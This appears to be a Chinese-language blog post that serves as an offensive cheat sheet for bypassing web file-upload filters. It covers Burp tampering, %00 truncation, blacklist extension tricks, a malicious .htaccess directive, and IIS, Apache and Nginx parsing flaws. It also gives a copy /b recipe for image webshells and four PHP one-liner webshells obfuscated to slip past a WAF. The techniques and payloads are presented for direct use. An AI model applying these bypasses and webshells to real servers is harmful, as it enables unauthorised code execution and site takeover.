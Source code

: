 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](https://ljjbloghub.github.io/img/上传1.png)
##  服务器端检测绕过

### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.get方法传送文件路径，利用%00截断   
![](https://ljjbloghub.github.io/img/上传2.png)  
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](https://ljjbloghub.github.io/img/上传3.png)   
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg)  

### 后缀名检测  
基于黑名单的绕过：  
1.php可以执行的后缀名.php2，3，4，5  
2.test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3.找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4.可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5.利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   

白名单绕过：  
1.截断攻击   
2.利用解析漏洞  
3.特别文件名构造  

### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](https://ljjbloghub.github.io/img/上传4.png)    
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg)       
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析      
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析    
     
IIS7.0/7.5 解析漏洞:    
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   

Apache解析漏洞（双扩展名解析绕过)      
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞）  
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:  
	![](https://ljjbloghub.github.io/img/上传5.png)  
2.文件相关信息检测绕过:    
根据类型在文件头部添加以下文本    
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](https://ljjbloghub.github.io/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  

          <?php $_GET[“test1"]($_GET[“test2"]); ?>  
          
2.  

        $str="a=assert";  
        parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"
        

3. 

        <?php 
          function fun() 
          {return $_POST['a'];} 
          @preg_replace("/test/e",fun(),"test test test"); 
        ?>   
    
4.

      <?php 
      $b='tressa'; 
      $c=strrev($b); 

      $c($_POST[key]); 
      ?> 
	
### 文件上传思维导图：
![](https://ljjbloghub.github.io/img/上传7.png)
